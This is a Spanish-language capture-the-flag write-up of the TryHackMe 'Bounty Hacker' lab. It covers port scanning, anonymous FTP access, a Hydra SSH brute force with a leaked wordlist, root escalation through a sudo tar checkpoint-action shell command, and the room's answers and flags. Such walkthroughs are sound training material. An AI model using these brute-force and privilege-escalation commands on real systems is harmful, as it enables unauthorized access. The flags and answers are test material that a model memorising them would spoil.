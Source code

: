 # Bounty Hacker - TryHackMe

- Objetivo: Obtener acceso al sistema y escalar privilegios hasta root.
- Fecha: 12/06/2025
- Autor del reto: Liiaam251
- Enlace a la máquina: [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)
- IP de la máquina: 10.10.169.147

## Enumeración de puertos con Nmap

````
$ nmap -p- --open -sS -sV -sC -T4 -n -Pn 10.10.169.147
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-14 12:06 EDT
Nmap scan report for 10.10.169.147
Host is up (0.053s latency).
Not shown: 55598 filtered tcp ports (no-response), 9934 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.3.53
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
````
Vemos un ftp vamos a entrar:
## FTP - Anonymous
El nmap nos ha descubierto que podemos entrar con usuario Anonymous, hacemos un ls dentro y hay dos archivos que nos pasamos a nuestro local host,

````
$ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
````
Parece un diccionario, el otro archivo: 
````
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
````
Teniendo ese usuario y lo otro que parecia una wordlist he probado ha hacer un hydra ya que no perdia nada, no he entrado al http de momento porque no me estaba haciendo falta pero
la he mirado por encima y habian nombres y algunos usuarios, tambien he lanzado gobuster y no había nada interesante solo un direcorio de imagenes.

Vamos a lanzar hydra 

## Entrada al SSH

````
 hydra -l lin -P locks.txt 10.10.169.147 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-14 12:19:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.169.147:22/
[22][ssh] host: 10.10.169.147   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-14 12:20:01
````
Encontramos password del user lin:
````
RedDr4gonSynd1cat3
````
Una vez dentro del ssh con:
````
ssh lin@10.10.169.147
````
Vemos que hay una flag en su directorio:
````
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
````
## Escalada Privilegios 
````bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
````
Vemos que el user lin puede usar tar con privilegios de administrador, el binario tar sirve para:

Archivar y recuperar archivos ha partir de un solo archivo denominado tarfile

En GTFObins encontramos el siguiente comando como sudo en el apartado de tar:
````
 sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
````
Y sin más dificultad:
````
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
````
## Task 
1. Who wrote the task list?
Como hemos visto en el archivo ftp el user era:
````
lin
````
2. What service can you bruteforce with the text file found?
El servicio que hemos explotado con fuerza bruta era:
````
ssh
````
3. What is the users password?
La contraseña que hemos encontrado con el hydra era:
````
RedDr4gonSynd1cat3
````
4. user.txt
La flag dentro de la carpeta de lin era:
````
THM{CR1M3_SyNd1C4T3}
````
5. root.txt
Dentro de la carpeta de /root estaba esta flag
````
THM{80UN7Y_h4cK3r}
````


